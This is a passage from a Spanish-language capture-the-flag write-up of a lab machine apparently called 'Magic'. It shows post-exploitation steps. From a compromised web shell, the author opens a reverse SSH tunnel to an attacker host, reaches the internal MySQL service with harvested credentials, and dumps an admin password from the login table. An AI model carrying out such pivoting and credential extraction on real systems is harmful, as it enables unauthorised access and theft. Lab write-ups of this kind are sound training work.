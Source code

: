 ```console
www-data@ubuntu:/var/www/Magic$ netstat -nat                 
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
```
Vemos que tenemos `mysql` ejecutándose de manera local, por lo que podemos nosotros crear una regla de port forwarding para poder tunelizar un puerto local propio con el puerto 3306 de la máquina y así lograr la comunicación para poder acceder a la base de datos de mysql.

## Port forwarding.

Inicio mi servicio SSH.

> **Nota:** Asegurate de tener permitido el logueo como root.

```console
intrusionz3r0@Kali:~$ service ssh start
intrusionz3r0@Kali:~$ grep "PermitRootLogin" /etc/ssh/sshd_config | head -n 1
PermitRootLogin yes
```
Creo la regla de port forwarding.
```console
www-data@ubuntu:/var/www/Magic$ ssh -R 3333:127.0.0.1:3306 root@10.10.14.7
```

Ahora si podemos loguearnos con las credenciales que encontramos anteriormente.

```console
intrusionz3r0@Kali:~$ mysql -h 127.0.0.1 -P 3333 -utheseus -piamkingtheseus  
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 2191
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Magic              |
+--------------------+
2 rows in set (0.191 sec)

MySQL [(none)]> use Magic;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [Magic]> show tables;
+-----------------+
| Tables_in_Magic |
+-----------------+
| login           |
+-----------------+
1 row in set (0.192 sec)

MySQL [Magic]> select * from login;
+----+----------+----------------+
| id | username | password       |
+----+----------+----------------+
|  1 | admin    | Th3s3usW4sK1ng |
```